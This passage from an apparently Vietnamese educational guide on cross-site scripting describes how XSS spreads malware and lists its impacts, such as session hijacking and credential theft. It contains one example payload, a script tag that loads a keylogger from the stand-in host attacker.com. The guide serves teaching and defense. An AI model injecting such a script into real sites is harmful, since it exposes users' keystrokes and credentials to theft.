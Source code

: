 <a name="distributing-malicious-code"></a>
### 6. Phát tán Mã Độc

Kẻ tấn công có thể sử dụng XSS để phát tán mã độc, chẳng hạn như ransomware hoặc keylogger, tới các nạn nhân bằng cách chèn mã độc vào các trang web phổ biến hoặc các ứng dụng web.

**Ví dụ:**
```javascript
<script src="http://attacker.com/keylogger.js"></script>
```
Đoạn mã này sẽ tải và thực thi một keylogger từ máy chủ của kẻ tấn công, theo dõi và ghi lại mọi phím mà người dùng nhấn.

<a name="impact-of-crosssite-scripting-xss-vulnerabilities"></a>
## V. Tác Động Của Lỗ Hổng XSS (Cross-Site Scripting)

Cross-Site Scripting (XSS) là một trong những lỗ hổng bảo mật phổ biến và nguy hiểm trên các ứng dụng web. Ảnh hưởng của các lỗ hổng XSS có thể rất nghiêm trọng và đa dạng:

**1. Đánh Cắp Thông Tin Người Dùng**

Các lỗ hổng XSS thường được kẻ tấn công sử dụng để đánh cắp thông tin cá nhân của người dùng, bao gồm tên đăng nhập, mật khẩu, thông tin thẻ tín dụng và thông tin cá nhân khác. Thông tin này có thể được sử dụng cho các mục đích lừa đảo, gian lận hoặc tấn công tiếp theo.

**2. Đánh Cắp Phiên (Session Hijacking)**

Bằng cách đánh cắp cookie phiên của người dùng thông qua các lỗ hổng XSS, kẻ tấn công có thể giả mạo danh tính của họ và truy cập vào các tài khoản đã đăng nhập mà không cần biết mật khẩu.

**3. Phishing và Lừa Đảo**

Các lỗ hổng XSS có thể được sử dụng để tạo ra các trang web giả mạo hoặc hiển thị thông báo giả mạo để lừa đảo người dùng và lấy thông tin cá nhân của họ, như thông tin đăng nhập hoặc thông tin tài khoản ngân hàng.

**4. Chèn Nội Dung Độc Hại**

Kẻ tấn công có thể chèn nội dung độc hại như quảng cáo không mong muốn, trình duyệt mã độc hoặc biểu mẫu giả mạo vào các trang web bị ảnh hưởng bởi XSS. Điều này có thể gây ra những hậu quả tiêu cực cho trải nghiệm người dùng và làm suy yếu tính bảo mật của hệ thống.

**5. Tấn Công Đa Phương Tiện**

Các lỗ hổng XSS có thể được sử dụng để tấn công vào các trang web chứa nội dung đa phương tiện, như video, hình ảnh hoặc âm nhạc. Điều này có thể làm suy yếu tính bảo mật của người dùng khi họ truy cập vào các trang web đó.

**6. Suy Yếu Hệ Thống**

Nếu một ứng dụng web chứa một số lượng lớn các lỗ hổng XSS, nó có thể trở nên suy yếu và dễ bị tấn công hơn, dẫn đến nguy cơ mất dữ liệu, mất dịch vụ hoặc ảnh hưởng tiêu cực đến danh tiếng của tổ chức.

<a name="how-to-search-and-test-for-xss-crosssite-scripting-vulnerabilities"></a>
## VI. Cách Tìm Kiếm và Kiểm Tra Lỗ Hổng XSS (Cross-Site Scripting)
